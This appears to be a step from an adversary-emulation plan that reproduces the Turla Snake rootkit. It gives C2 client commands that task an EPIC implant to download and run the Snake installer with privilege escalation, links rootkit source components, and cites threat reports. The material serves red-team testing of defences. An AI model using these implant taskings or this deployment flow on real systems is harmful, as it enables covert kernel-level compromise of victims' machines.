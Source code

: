 
### ☣️ Procedures

* In your Kali C2 server, ensure that you are in the lower split terminal window.

* Task the EPIC implant to download the Snake rootkit installer.

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'name | C:\\Users\\Egle\\Desktop\\gusbsys.exe | snake.exe'
```

* Wait 1 minute after the payload is sucessfully downloaded before tasking the implant to execute the Snake rootkit installer with the privilege escalation option:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | C:\\Users\\Egle\\Desktop\\gusbsys.exe -f'
```

* :arrow_right: Switch to your RDP session in `azuolas (10.100.40.103)` and go to your Edge window. Perform a hard refresh on the current page by pressing Ctrl+Shift+R.

:arrow_right: Return to your Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

### :moyai: Source Code

* EPIC
  * File download [DownloadFile](../../Resources/EPIC/payload/src/epic.cpp#L441-L466)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)

### :microscope: Cited Intelligence

* [Report 9: Securelist/Artemon- Uroburos](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2014/08/20082358/uroburos.pdf)
* [Report 10: BAE/Artemon- Snake](https://artemonsecurity.com/snake_whitepaper.pdf)
* [Report 11: GData- Uroburos](https://public.gdatasoftware.com/Web/Content/INT/Blog/2014/02_2014/documents/GData_Uroburos_RedPaper_EN_v1.pdf)
* [Report 12: CIRCL- TR-25](https://www.circl.lu/pub/tr-25/)
* [Report 13: GData- Kernel Protection Mitigation](https://www.gdatasoftware.com/blog/2014/03/23966-uroburos-deeper-travel-into-kernel-protection-mitigation)
* [Report 14: GData- using WinDbg](https://www.gdatasoftware.com/blog/2014/06/23953-analysis-of-uroburos-using-windbg)
* [Report 16: GData- Project Cobra](https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra)
* [Report 17: Tetrane- Uroburos with REVEN](https://blog.tetrane.com/2019/Analysis-Uroburos-Malware-REVEN.html)
* [Report 18: Talos- Snake Campaign](https://blog.talosintelligence.com/2014/04/snake-campaign-few-words-about-uroburos.html)
* [Report 19: Lastline- Dissecting Turla Rootkit](https://www.lastline.com/labsblog/dissecting-turla-rootkit-malware-using-dynamic-analysis/)
* [Report 20: Lastline- Kernel Exploit Makeover](https://www.lastline.com/labsblog/turla-apt-group-gives-their-kernel-exploit-a-makeover/)